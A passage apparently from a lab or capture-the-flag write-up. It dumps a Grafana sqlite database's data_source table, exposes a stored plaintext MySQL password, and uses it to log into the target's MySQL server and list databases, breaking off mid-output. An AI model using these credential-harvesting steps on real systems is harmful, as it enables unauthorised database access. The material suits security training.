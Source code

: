 ```shell
dashboard_snapshot          team
dashboard_tag               team_member
dashboard_version           temp_user
data_source                 test_data
kv_store                    user
library_element             user_auth
library_element_connection  user_auth_token
sqlite> .dump data_source
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE `data_source` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `org_id` INTEGER NOT NULL
, `version` INTEGER NOT NULL
, `type` TEXT NOT NULL
, `name` TEXT NOT NULL
, `access` TEXT NOT NULL
, `url` TEXT NOT NULL
, `password` TEXT NULL
, `user` TEXT NULL
, `database` TEXT NULL
, `basic_auth` INTEGER NOT NULL
, `basic_auth_user` TEXT NULL
, `basic_auth_password` TEXT NULL
, `is_default` INTEGER NOT NULL
, `json_data` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `with_credentials` INTEGER NOT NULL DEFAULT 0, `secure_json_data` TEXT NULL, `read_only` INTEGER NULL, `uid` TEXT NOT NULL DEFAULT 0);
INSERT INTO data_source VALUES(2,1,1,'MySQL','MySQL.yaml','proxy','','dontStandSoCloseToMe63221!','grafana','grafana',0,'','',0,X'7b7d','2022-09-01 22:43:03','2023-01-18 09:56:11',0,'{}',1,'uKewFgM4z');
COMMIT;
```

With this information let's connect to MySQL.

```shell
$ MySQL -u grafana -p -h 10.10.11.183 -D grafana
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 119
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)
MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| MySQL              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.047 sec)

MySQL [grafana]> use whackywidget
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
```
